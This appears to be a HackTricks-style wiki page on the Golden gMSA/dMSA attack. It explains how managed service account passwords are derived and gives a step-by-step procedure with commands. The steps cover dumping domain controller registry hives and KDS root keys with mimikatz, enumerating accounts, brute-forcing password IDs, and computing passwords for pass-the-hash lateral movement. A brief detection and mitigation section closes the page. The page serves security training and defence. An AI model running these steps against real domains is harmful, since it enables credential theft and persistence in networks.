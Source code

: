 # Golden gMSA/dMSA Attack (Offline Derivation of Managed Service Account Passwords)

{{#include ../../banners/hacktricks-training.md}}

## Overview

Windows Managed Service Accounts (MSA) are special principals designed to run services without the need to manually manage their passwords.
There are two major flavours:

1. **gMSA** – group Managed Service Account – can be used on multiple hosts that are authorised in its `msDS-GroupMSAMembership` attribute.
2. **dMSA** – delegated Managed Service Account – the (preview) successor to gMSA, relying on the same cryptography but allowing more granular delegation scenarios.

For both variants the **password is not stored** on each Domain Controller (DC) like a regular NT-hash.  Instead every DC can **derive** the current password on-the-fly from:

* The forest-wide **KDS Root Key** (`KRBTGT\KDS`)  – randomly generated GUID-named secret, replicated to every DC under the `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …` container.
* The target account **SID**.
* A per-account **ManagedPasswordID** (GUID) found in the `msDS-ManagedPasswordId` attribute.

The derivation is: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240 byte blob finally **base64-encoded** and stored in the `msDS-ManagedPassword` attribute.
No Kerberos traffic or domain interaction is required during normal password usage – a member host derives the password locally as long as it knows the three inputs.

## Golden gMSA / Golden dMSA Attack

If an attacker can obtain all three inputs **offline** they can compute **valid current and future passwords** for **any gMSA/dMSA in the forest** without touching the DC again, bypassing:

* LDAP read auditing
* Password change intervals (they can pre-compute)

This is analogous to a *Golden Ticket* for service accounts.

### Prerequisites

1. **Forest-level compromise** of **one DC** (or Enterprise Admin), or `SYSTEM` access to one of the DCs in the forest.
2. Ability to enumerate service accounts (LDAP read / RID brute-force).
3. .NET ≥ 4.7.2 x64 workstation to run [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) or equivalent code.

### Golden gMSA / dMSA
##### Phase 1 – Extract the KDS Root Key

Dump from any DC (Volume Shadow Copy / raw SAM+SECURITY hives or remote secrets):

```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too

# With GoldendMSA
GoldendMSA.exe kds --domain <domain name>   # query KDS root keys from a DC in the forest
GoldendMSA.exe kds 

# With GoldenGMSA
GoldenGMSA.exe kdsinfo
```
The base64 string labelled `RootKey` (GUID name) is required in later steps.

##### Phase 2 – Enumerate gMSA / dMSA objects

Retrieve at least `sAMAccountName`, `objectSid` and `msDS-ManagedPasswordId`:

```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
  Select sAMAccountName,objectSid,msDS-ManagedPasswordId
  
GoldenGMSA.exe gmsainfo
```

[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) implements helper modes:

```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```

##### Phase 3 – Guess / Discover the ManagedPasswordID (when missing)

Some deployments *strip* `msDS-ManagedPasswordId` from ACL-protected reads.
Because the GUID is 128-bit, naive bruteforce is infeasible, but:

1. The first **32 bits = Unix epoch time** of the account creation (minutes resolution).
2. Followed by 96 random bits.

Therefore a **narrow wordlist per account** (± few hours) is realistic.

```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
The tool computes candidate passwords and compares their base64 blob against the real `msDS-ManagedPassword` attribute – the match reveals the correct GUID.

##### Phase 4 – Offline Password Computation & Conversion

Once the ManagedPasswordID is known, the valid password is one command away:

```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID> -i <KDSRootKey ID>
GoldenGMSA.exe compute --sid <SID> --kdskey <KDSRootKey> --pwdid <ManagedPasswordID>
```
The resulting hashes can be injected with **mimikatz** (`sekurlsa::pth`) or **Rubeus** for Kerberos abuse, enabling stealth **lateral movement** and **persistence**.

## Detection & Mitigation

* Restrict **DC backup and registry hive read** capabilities to Tier-0 administrators.
* Monitor **Directory Services Restore Mode (DSRM)** or **Volume Shadow Copy** creation on DCs.
* Audit reads / changes to `CN=Master Root Keys,…` and `userAccountControl` flags of service accounts.
* Detect unusual **base64 password writes** or sudden service password reuse across hosts.
* Consider converting high-privilege gMSAs to **classic service accounts** with regular random rotations where Tier-0 isolation is not possible.

## Tooling

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – reference implementation used in this page.
* [`Semperis/GoldenGMSA`](https://github.com/Semperis/GoldenGMSA/) – reference implementation used in this page.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket using derived AES keys.

## References

- [Golden dMSA – authentication bypass for delegated Managed Service Accounts](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [gMSA Active Directory Attacks Accounts](https://www.semperis.com/blog/golden-gmsa-attack/)
- [Semperis/GoldenDMSA GitHub repository](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Golden gMSA trust attack](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
